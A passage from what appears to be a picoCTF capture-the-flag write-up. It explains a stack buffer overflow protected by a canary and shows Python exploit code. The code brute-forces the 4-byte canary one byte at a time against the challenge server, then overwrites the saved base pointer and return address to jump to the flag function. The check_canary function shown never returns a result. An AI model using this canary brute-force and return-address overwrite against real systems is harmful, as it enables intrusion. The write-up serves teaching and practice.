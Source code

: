 We'll be smarter. Let's brute force each byte of the canary at a time.

```python
CANARY_SIZE = 4
MAX_ASCII = 255

def brute_force_canary():
    """
    It's known that the canary is 4 bytes long, so we'll brute force each byte separately instead of a normal brute
    force. We loop over the canary size, and the over all possible ASCII's.
    :return:
    """

    canary = str()
    for byte_index in range(CANARY_SIZE):
        for curr_char in range(MAX_ASCII):
            curr_canary = canary + chr(curr_char)
            if check_canary(curr_canary):
                canary = curr_canary
                break
    return canary
```

And we have a function for checking if the canary is correct.
We have guessing mode, in which we overwrite only until the canary 
(not old_bp and return address), and the BOF itself, in which
we know the canary and want to get the flag, then we'' overwrite the return address.

```python
base_exploit_str = "1" * 64  # Overwrite 64 bytes of local vars before canary


def check_canary(canary: str, guess_canary: bool = True):
    # Connect to pico using netcat
    conn = connect("saturn.picoctf.net", 50553)

    # Overwrite local vars + canary
    input_str = base_exploit_str + canary
    if not guess_canary:
        # Overwrite additional local vars
        input_str += "2" * 12
        # Overwrite old BP
        input_str += "3" * 4
        # Overwrite return address
        input_str = input_str.encode() + p32(0x08049336)

    log.debug("PROGRAM:")
    print(conn.recv().decode())

    # Send length and exploit string
    conn.sendline(str(len(input_str)).encode())
    print(len(input_str))
    conn.recv()
    print("Curr canary: {}\n".format(canary))
    conn.sendline(input_str)

    # Get responses from program
    resp = conn.recv().decode()
    resp2 = str()

    if guess_canary:
        resp2 = conn.recv().decode()    # To get flag if we're not guessing the canary anymore
    conn.close()

```
